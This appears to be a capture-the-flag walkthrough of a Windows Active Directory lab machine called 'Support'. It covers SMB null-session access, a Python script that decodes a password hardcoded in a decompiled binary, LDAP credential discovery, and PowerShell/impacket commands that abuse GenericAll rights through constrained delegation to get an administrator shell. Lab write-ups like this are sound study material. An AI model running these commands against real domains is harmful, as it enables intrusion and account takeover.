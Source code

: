 # Support

## Gaining Access

Nmap scan:

<figure><img src="../../../.gitbook/assets/image (16) (1) (3).png" alt=""><figcaption></figcaption></figure>

### Null Session

I found that SMB accepts null credentials for this machine:

<figure><img src="../../../.gitbook/assets/image (32) (2) (1).png" alt=""><figcaption></figcaption></figure>

Viewing the support-tools share, we find that it contains multiple binaries.

<figure><img src="../../../.gitbook/assets/image (22) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

There's only one that was interesting, and it was the `UserInfo.exe` file. I took it back to my Windows VM and used dnSpy to open it.

### dnSpy

When decompiled, it seems that the binary was sending LDAP queries:

<figure><img src="../../../.gitbook/assets/image (26) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

Looking around, I also found this `password` function.

<figure><img src="../../../.gitbook/assets/image (18) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

We can decode this easily using some Python and following their logic.

```python
import base64
enc_pass="0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key=b"armando"

array = base64.b64decode (enc_pass)
array1 = []

for i in range(len(array)):
        array1.append(chr(array[i] ^ key[i % len(key)] ^ 0xDF))

array1 = ''.join(array1)
print (array1)
```

This would output the password.

<figure><img src="../../../.gitbook/assets/image (33) (3).png" alt=""><figcaption></figcaption></figure>

### LDAPSearch

Then, since the binary does LDAP queries, I wanted to use the username and password given by the binary to query LDAP.

<figure><img src="../../../.gitbook/assets/image (25) (3) (1).png" alt=""><figcaption></figcaption></figure>

On analysing the output, I found a hidden password for the `support` user.

<figure><img src="../../../.gitbook/assets/image (6) (1) (4) (1).png" alt=""><figcaption></figcaption></figure>

We can then `evil-winrm` in as this `support` user.

<figure><img src="../../../.gitbook/assets/image (13) (4) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

Once in, I started Bloodhound to enumerate for me. Upon reviewing the contents, I saw this interesting set of permissions over the DC.

<figure><img src="../../../.gitbook/assets/image (9) (1) (5) (1).png" alt=""><figcaption></figcaption></figure>

We can use PowerMad and PowerView to abuse the `GenericAll` privileges.

### GenericAll Abuse

We can use this set of commands to create a new user:

{% code overflow="wrap" %}
```powershell
New-MachineAccount -MachineAccount (Get-Variable -Name "FAKE01").Value -Password $(ConvertTo-SecureString 'password@123' -AsPlainText -Force) -Verbose
Set-ADComputer (Get-Variable -Name "DC").Value -PrincipalsAllowedToDelegateToAccount ((Get-Variable -Name "FAKE01").Value + '$')
Get-ADComputer (Get-Variable -Name "DC").Value -Properties PrincipalsAllowedToDelegateToAccount
# on Linux from here 
impacket-getST support.htb/fake01 -dc-ip <IP> -impersonate administrator -spn www/dc.support.htb
export KRB5CCNAME=administrator.ccache
smbexec.py support/Administrator@support.htb -no-pass -k
```
{% endcode %}

This would spawn in a shell for us.

How it works is that we first create a new user that has the Constrained Delegation privilege. Then, we are able to impersonate the administrator and request a ticket that we can use to gain a shell with `smbexec.py`.

<figure><img src="../../../.gitbook/assets/image (24) (2) (1) (1).png" alt=""><figcaption></figcaption></figure>
